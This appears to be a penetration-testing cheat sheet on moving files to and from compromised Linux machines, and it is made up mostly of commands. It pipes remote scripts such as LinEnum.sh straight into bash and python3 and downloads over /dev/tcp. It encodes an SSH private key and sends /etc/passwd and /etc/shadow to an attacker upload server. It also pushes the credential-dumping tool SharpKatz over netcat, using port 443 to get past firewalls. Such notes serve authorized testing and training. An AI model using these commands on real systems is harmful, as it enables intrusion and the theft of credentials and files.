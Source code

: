 # Linux File Transfer

## Download Operations

### Base64 Encoding / Decoding

**Check MD5 and Encode/Decode:**

```bash
# Check MD5 and encode
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

cat id_rsa |base64 -w 0;echo
---SNIP---

# Decode and check MD5
echo -n '---SNIP---' | base64 -d > id_rsa

md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa
```

---

### cURL / wget

Some payloads such as `mkfifo` write files to disk. Keep in  mind that while the execution of the payload may be fileless when you  use a pipe, depending on the payload chosen it may create temporary  files on the OS.

```bash
# Standard
wget https://10.0.0.10/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://host/LinEnum.sh

# Fileless
curl https://10.0.0.10/LinEnum.sh | bash
wget -qO- https://host/script.py | python3
```

---

### Download with Bash (/dev/tcp)

**Connect to the Target Webserver**:

```bash
# Connect
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

# Print response
cat <&3
```

---

### Downloading Files Using SCP

`scp plaintext@192.168.1.10:/root/myroot.txt . `

---

## Upload Operations

### Web Upload

**Python upload server:**

```bash
# Create cert
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start server
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

# Upload file
curl -X POST https://192.168.1.10/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

---

### Alternative Web File Transfer Method

It is possible to stand up a web server using various languages. A  compromised Linux machine may not have a web server installed. In such  cases, we can use a mini web server. 

```bash
# Python3
python3 -m http.server

# python2
python2.7 -m SimpleHTTPServer

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000

# SCP
scp /etc/passwd user@192.168.1.10:/tmp/
```

---

## Miscellaneous File Transfer Methods

### File Transfer with Netcat and Ncat

> These methods can be reversed for upload to attack machine, if allowed through firewall 

Send to Compromised Machine

```bash
# Netcat
# Setup the listener on compromised host
nc -l -p 8000 > SharpKatz.exe
# Send the file
nc -q 0 192.168.49.128 8000 < SharpKatz.exe

# Ncat
# Setup the listener on compromised host
ncat -l -p 8000 --recv-only > SharpKatz.exe
# Send the file
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

---

### Sending file as input   

```bash
# 443 is used due to firewall

# Netcat
# Sending file from attack machine
sudo nc -l -p 443 -q 0 < SharpKatz.exe

# Receive the file
nc 192.168.49.128 443 > SharpKatz.exe

# Ncat - 443 is used due to firewall
# Sending file from attack machine
sudo ncat -l -p 443 --send-only < SharpKatz.exe

# Receive the file
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

---
